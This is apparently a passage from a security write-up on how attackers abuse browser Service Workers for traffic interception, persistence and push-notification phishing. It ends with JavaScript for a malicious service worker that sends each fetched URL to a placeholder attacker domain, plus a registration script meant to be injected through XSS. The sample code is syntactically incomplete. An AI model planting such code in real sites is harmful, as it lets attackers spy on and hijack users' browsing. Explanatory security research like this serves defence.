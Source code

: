 #### Traffic interception
SW has access to the website's network traffic. It can intercept network traffic of files within its scope and modify any HTTP header and content.

This type of interception can be used to inject malicious content and is not subject to monitoring or security enforcement of existing defenses. For example, when a malicious third-party script is prohibited from modifying other DOM elements, it can use SW to directly modify the DOM content of a web page. In this way, an attacker can potentially use a compromised SW to bypass certain types of document context protection and execute a payload.

<br>

#### Pinning in web applications
Once successfully registered, the SW's contents (e.g. event listeners) will persist until a new SW replaces the old one. The payload stored in the SW can persist across multiple sessions.

An attacker can use this capability in combination with network traffic manipulation to take full control of the target web application on the client side for an extended period of time.

<br>

#### Push Notifications
One of the previously mentioned features of SW is that it allows a push event to be triggered remotely and a push message to be displayed at any time, regardless of whether the browser is open.
This feature gives two advantages to an attacker in implementing fishing attacks:
1. The attacker does not need to wait for the victim to visit the web application to start phishing - they can start the attack at any time using a push message.
2. The sender of the push message appears to come from a site that is usually legitimate. Therefore, the fishing message will look more realistic compared to a message coming from a different and unknown site.

<br>

### Example of creating SW
To create a malicious SW in the victim's browser, two conditions are required:
* JavaScript file containing source code of SW placing on same origin
* Use XSS to register it

Let's consider the simplest SW `sw.js` - we log the victim's fetch requests in the current Origin by duplicating their URL to the request to the controlled domain:

SW source code:
```js
self.addEventListener('fetch', function(e) {
  e.respondWith(caches.match(e.request).then(function(response) {
    fetch('https://<attacker_domain>/fetch_url/' + e.request.url)
});
```

Register SW:
```js
window.addEventListener('load', function() {
var sw = "sw.js";

navigator.serviceWorker.register(sw, {scope: '/'})
  .then(function(registration) {
    var xhttp2 = new XMLHttpRequest();
    xhttp2.open("GET", "https://<attacker_domain>/SW/success", true);
    xhttp2.send();
  }, function (err) {
    var xhttp2 = new XMLHttpRequest();
    xhttp2.open("GET", "https://<attacker_domain>/SW/error", true);
    xhttp2.send();
  });
  
});
```
